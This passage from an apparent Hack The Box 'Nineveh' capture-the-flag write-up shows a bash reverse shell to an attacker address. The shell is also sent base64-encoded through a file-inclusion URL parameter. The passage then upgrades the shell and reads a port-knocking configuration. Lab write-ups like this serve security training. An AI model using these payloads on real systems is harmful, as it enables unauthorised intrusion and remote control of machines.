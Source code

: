 ![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Nineveh/Untitled%2025.png)

```bash
**/bin/sh -i >& /dev/tcp/10.10.14.7/4444 0>&1**
```

Was encode the payload in base64 and inserted in URL.

```bash

****10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/0xEtern4lW0lf.php&cmd=echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjcvNDQ0NCAwPiYxCg==|base64 -d|bash
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Nineveh/Untitled%2026.png)

**HABEMUS SHELL!!!**

# Post Exploration

## Update Shell

```bash
/usr/bin/python3.5 -c "import pty; pty.spawn('/bin/bash')"

**export SHELL=bash;export TERM=xterm-256color**
```

****

## Www-data → Amrois

Previously an SSH private key was found, but port 22 is not open externally and there are the service ssh active.

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Nineveh/Untitled%2027.png)

Possibly the machine uses the `Port Knocking` technique, which means that we must “knock” on some specific ports to open port 22. Let's find out!

```bash
/etc/init.d/knockd status
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Nineveh/Untitled%2028.png)

```bash
cat /etc/knockd.conf
```

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Nineveh/Untitled%2029.png)

We can see that there’re the service running and the port sequence for open the port 22 is `571, 290, 911`.
